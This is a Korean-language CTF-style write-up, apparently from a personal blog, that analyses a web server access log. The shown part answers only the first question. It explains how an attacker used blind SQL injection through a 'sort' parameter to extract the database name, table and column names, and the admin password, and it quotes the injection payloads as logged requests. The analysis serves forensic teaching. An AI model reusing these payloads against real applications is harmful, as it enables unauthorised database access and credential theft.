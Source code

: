 ## weblog-1
---

주어진 파일에 보면 access 파일이 있는데 로그가 기록되어 있다.

이를 토대로 5개의 문제를 풀면 된다.

<br><br>

### Question 1
---

```
Q: 공격자에게 탈취된 admin 계정의 PW를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

로그를 보면 login.php에서 시도를 하다가 실패해서 board.php로 이동한다.

이동한 다음 search 매개변수에 값을 넣어서 시도하다가 안되서 sort 매개변수로 시도를 한다.

그런데 sort 매개변수는 값을 그대로 받아들이기 때문에 공격자는 여기서 database명을 뽑아내려고 시도한다.

공격자는 if문을 통해 query가 true이면 문법 에러를 일으켜서 확인한다. 

500 에러가 일어남을 확인할 수 있다.

<br>

아래의 로그는 database 명의 첫 글자인 s를 알아낸 로그 기록이다. 

database 명은 simple_board임을 config.php에서 확인할 수 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:11:09 +0000] "GET /board.php?sort=if(ord(substr(database(),%201,1))=115,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

그 다음 시간 상으로 ```[02/Jun/2020:09:21:34 +0000]``` 때 기록된 로그부터는 information_schema.columns 에서 테이블, 컬럼 명을 추출하려는 로그가 기록되어 있다.

공격자가 첫 글자를 추출했다. 

<br>

```
172.17.0.1 - - [02/Jun/2020:09:22:01 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%201,1))=98,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

테이블명의 첫 글자는 b이다.

다른 코드를 보면은 테이블명이 board, 컬럼 이름이 idx, title, contents, writer가 있음을 알 수 있다.

공격자가 뽑아낸 테이블, 컬럼명은 아래와 같다.

```board:idx,board:title,board:contents,board:writer,users:idx,users:username,users:password,users:level```

<br>

다음은 ```[02/Jun/2020:09:50:05 +0000]``` 이 시간에 기록된 로그부터는 users 테이블의 user,password 컬럼 값들을 추출하는 로그가 기록되어 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:50:05 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(username,0x3a,password)%20from%20users),%201,1))=32,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841
```

<br>

여기서 성공한 로그(500 에러가 난 로그)를 살펴보면 admin의 비밀번호는 Th1s_1s_Admin_P@SS






